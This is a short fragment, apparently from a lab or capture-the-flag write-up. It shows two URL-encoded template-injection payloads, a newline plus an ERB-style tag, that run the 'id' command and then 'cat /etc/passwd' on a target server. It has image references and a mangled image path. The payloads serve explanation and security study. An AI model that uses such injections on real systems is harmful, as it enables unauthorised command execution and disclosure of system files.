 ![](./IMG/23.png)

> Try ``, I can execute the command 

```
sdf%0A<%25%3d%20`id`%20%25>
```

![](./IMG/24.png)

```
sdf%0A<%25%3d%20`cat%20/etc/passwd`%20%25>
```

